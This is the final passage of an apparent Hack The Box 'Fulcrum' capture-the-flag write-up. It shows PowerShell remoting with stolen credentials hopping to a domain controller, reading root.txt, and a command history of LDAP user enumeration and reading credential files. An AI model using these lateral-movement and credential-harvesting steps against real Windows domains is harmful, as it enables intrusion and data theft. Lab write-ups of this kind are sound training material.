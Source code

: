 <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/923a.PNG"></kbd>


```
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName file.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command
 -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {whoami}}
fulcrum\923a
```
We can invoke a reverse shell from the dc from port 53 however getting the root.txt with command execution should also be just fine! 

Time to get root.txt!! :grin:

```
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName File.fulcrum.local -Credential $creds -ScriptBlock {Invoke-Command
 -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {type ../../Administrator/Desktop/root.txt}}
8ddbe372e57c019bb6c4cdb5b35a0cab
```

<kbd><img src="https://media.giphy.com/media/FA77mwaxV74SA/giphy.gif"></kbd>


[192.168.1.41]: PS C:\Users\WebUser\Documents> whoami
[192.168.1.41]: PS C:\inetpub\wwwroot> cat web.config
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter = "(objectClass=user)";
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $entry = new-object directoryservices.directoryentry("LDAP://dc.fulcrum.local/OU=People,DC=fulc
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher = new-object directoryservices.directorysearcher($entry);
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(&(objectClass=user)(Name=*Bob*))"
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.findAll() | Select Path
[192.168.1.41]: PS C:\inetpub\wwwroot> $searcher.filter ="(objectClass=user)"
[192.168.1.41]: PS C:\inetpub\wwwroot> $results = $searcher.findAll()
[192.168.1.41]: PS C:\inetpub\wwwroot> foreach($result in $results) { $user = $result.GetDirectoryEntry(); $user | Select * }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir C:\Users\BTables\Desktop\}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {type C:\Users\BTables\Desktop\user.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {dir ../ }
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {Get-Content ../check-auth.ps1 -Tail 25 > dotalol
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {.\dotalol.ps1 ..\merged.txt}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command –Session $session –ScriptBlock {sls 923a ..\merged.txt -ca | select -exp line}
[192.168.1.41]: PS C:\inetpub\wwwroot> Invoke-Command -ComputerName dc.fulcrum.local -Credential $creds -ScriptBlock {whoami}